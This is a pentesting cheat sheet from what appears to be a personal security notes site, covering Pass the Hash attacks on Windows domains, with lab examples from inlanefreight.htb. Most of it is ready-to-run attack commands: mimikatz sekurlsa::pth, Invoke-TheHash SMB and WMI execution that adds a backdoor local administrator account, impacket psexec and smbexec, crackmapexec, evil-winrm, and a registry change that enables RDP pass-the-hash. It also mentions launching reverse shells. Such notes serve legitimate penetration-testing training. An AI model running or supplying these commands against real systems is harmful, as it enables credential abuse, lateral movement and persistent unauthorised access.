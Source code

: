 ```yaml
---
title: Pass The Hash
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - lateral movement
---
```

# Pass The Hash

A [Pass the Hash (PtH)](https://attack.mitre.org/techniques/T1550/002/) attack is a technique where an attacker uses a password hash instead of the plain text password for authentication. With NTLM, passwords stored on the server and domain controller are not "salted," which means that an adversary with a password hash can authenticate a session without knowing the original password.

The attacker must have administrative privileges or particular privileges on the target machine to obtain a password hash. Hashes can be obtained in several ways, including:

- Dumping the local SAM database from a compromised host.
- Extracting hashes from the NTDS database (ntds.dit) on a Domain Controller.
- Pulling the hashes from memory (lsass.exe).



## Pass the Hash with Mimikatz (Windows)

see [mimikatz](mimikatz.md)

```powershell
# Pass The Hash attack in windows:
# 1. Run mimikatz
mimikatz.exe privilege::debug "sekurlsa::pth /user:<username> /rc4:<NTLM hash> /domain:<DOMAIN> /run:<Command>" exit
# sekurlsa::pth is a module that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password
# /user: the user we want to impersonate
# /rc4:<NTLM hash>: /rc4 or /NTLM - NTLM hash of the user's password.
# /run:<Command>: For example /run:cmd.exe

# 2. After that, we can use cmd.exe to execute commands in the user's context. 

# Example:
# .\mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit

```


## Pass the Hash with PowerShell Invoke-TheHash (Windows)

[See Powershell Invoke-TheHash](invoke-the-hash.md). This tool is a collection of PowerShell functions for performing Pass the Hash attacks with WMI and SMB. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. 

Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have administrative rights on the target computer.

When using Invoke-TheHash, we have two options: SMB or WMI command execution.

```powershell
cd C:\tools\Invoke-TheHash\

Import-Module .\Invoke-TheHash.psd1
```


### Invoke-TheHash with SMB

```powershell
Invoke-SMBExec -Target $ip -Domain <DOMAIN> -Username <USERNAME> -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
# Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.
# we can execute `Invoke-TheHash` to execute our PowerShell reverse shell script in the target computer.

# Example:
# Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

[How to generate a reverse shell](reverse-shells.md).

### Invoke-TheHash with WMI

```powershell
Import-Module .\Invoke-TheHash.psd1

Invoke-WMIExec -Target $machineName -Domain <DOMAIN> -Username <USERNAME> -Hash 64F12CDDAA88057E06A81B54E73B949B -Command  "net user mark Password123 /add && net localgroup administrators mark /add" 

# Example:
# Invoke-WMIExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

[How to generate a reverse shell](reverse-shells.md).


## Pass the Hash with Impacket (Linux)

### Pass the Hash with Impacket PsExec

```bash
impacket-psexec <username>@$ip -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

### Pass the Hash with impacket-wmiexec

Download from: [https://github.com/fortra/impacket/blob/master/examples/wmiexec.py](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py).

```shell-session
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```


### Pass the Hash with  impacket-atexec

Download from:  [https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)


### Pass the Hash with  impacket-smbexec

Download from: [https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

```bash
python3 smbexec.py -hashes :$NTLMhash Administrator@<TARGET-IP>

# Example:
python3 smbexec.py -hashes :bac9dc5b7b4bec1d83e0e9c04b477f26 Administrator@10.129.138.81
```


## Pass the Hash with CrackMapExec (Linux)

See [CrackMapExec](crackmapexec.md)

```powershell

# Using a hash instead of a password, to authenticate ourselves
crackmapexec smb $ip -u <username> -H <hash> -d <DOMAIN>

# Execute commands with flag -x
crackmapexec smb $ip/24 -u <Administrator> -d . -H <hash> -x whoami
```


## Pass the Hash with evil-winrm (Linux)

See [evil-winrm](evil-winrm.md).

If SMB is blocked or we don't have administrative rights, we can use this alternative protocol to connect to the target machine.

```bash
evil-winrm -i $ip -u <username> -H <hash>
```


## Pass the Hash with RDP (Linux)

```bash
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:$ip
# /pth:<hash>   Pass the hash

# Example:
# xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B

```

**Restricted Admin Mode**, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with an error. This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of 0. It can be done using the following command:

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Once the registry key is added, we can use xfreerdp with the option /pth to gain RDP access.


## UAC Limits Pass the Hash for Local Accounts

UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.

>Note: There is one exception, if the registry key FilterAdministratorToken (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account. ´